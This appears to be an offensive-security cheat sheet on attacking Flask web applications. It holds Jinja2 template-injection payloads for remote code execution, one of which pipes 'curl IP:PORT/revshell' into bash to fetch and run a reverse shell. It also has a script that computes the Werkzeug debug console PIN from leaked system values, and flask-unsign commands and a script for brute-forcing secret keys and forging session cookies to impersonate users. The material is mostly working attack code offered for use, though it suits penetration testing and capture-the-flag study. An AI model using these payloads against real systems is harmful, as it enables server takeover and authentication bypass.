 ```yaml
---
description: A Python library for routing and hosting a website
---
```


# Flask

## Jinja2 Server-side Template Injection (SSTI)

Inject the Jinja2 templating language for when the `render_template_string()` function is used

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti" %}
HackTricks explaining exploitation in detail
{% endembed %}

### 1. Detect

```django
{{7*7}}
{{config}}
```

### 2. Find subclasses to use for RCE

```django
''.__class__.mro()[1].__subclasses__()
```

Then take the response and replace `,` with `\n` in Visual Studio Code to easily see line number of index

### 3. Use subclass for RCE

Find a vulnerable subclass and replace `42` with the index of it in the `__subclasses__()`

```django
'subprocess.Popen': {{''.__class__.mro()[1].__subclasses__()[42]('id',shell=True,stdout=-1).communicate()[0].strip()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

### Filter Bypass

{% embed url="https://jorianwoltjer.com/blog/post/ctf/cyber-apocalypse-2021/build-yourself-in" %}
Writeup of challenge where quotes (`'` & `"`) were blocked
{% endembed %}

```django
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl IP:PORT/revshell | bash")|attr("read")()}}
```

## Console PIN

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug" %}

With a Local File Read vulnerability one could leak the necessary 'private' information required to generate the PIN. From the console you can then run any Python statement and get RCE with a Reverse Shell

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',  # username, /etc/passwd
    'flask.app',  # always the same
    'Flask',  # always the same
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # The absolute path of app.py in the flask directory. If app.py doesn't work, try app.pyc
]

private_bits = [
    '279275995014060',  # MAC, /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # /etc/machine-id, /proc/sys/kernel/random/boot_id, /proc/self/cgroup
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

## Session Cookie

If you have a `SECRET_KEY` of the Flask application you can forge your own `session=` cookies. This can be useful to bypass authentication or even try injection attacks inside the parameters of the session.&#x20;

### Brute-force

{% code title="Install" %}
```
pip install flask-unsign
```
{% endcode %}

<pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session"><strong>$ flask-unsign --wordlist /list/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiajByMmFuIn0.Yu6Z8A._RI4cQ2NSYW2epWYt-mR5cfkg0U' --no-literal-eval
</strong>[*] Session decodes to: {'logged_in': True, 'username': 'j0r2an'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17152 attempts
b'secret123'
</code></pre>

### Forging Session

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
</strong>eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YvlBnA.yo-Ef_eiy_aeDBgBK-cQdcu-nRw
</code></pre>

{% hint style="warning" %}
If in a script it might need the `--legacy` argument to get correct timestamps
{% endhint %}

### Automate Forging

Using a Python script you can automate this forging process to forge lots of values and find different responses

<details>

<summary>find_users.py</summary>

```python
from flask_unsign import session
from tqdm import tqdm
import requests

with open("/list/username.txt") as f:
    usernames = [l.strip() for l in f.readlines()]

SECRET_KEY = "secret123"

for username in tqdm(usernames):
    result = session.sign({'logged_in': True, 'username': username}, secret=SECRET_KEY, legacy=True)

    r = requests.get("http://10.10.11.160:5000/dashboard", cookies={"session": result}, allow_redirects=False)
    
    if r.status_code == 200:  # Found
        print("FOUND USER", username, result)
```

</details>

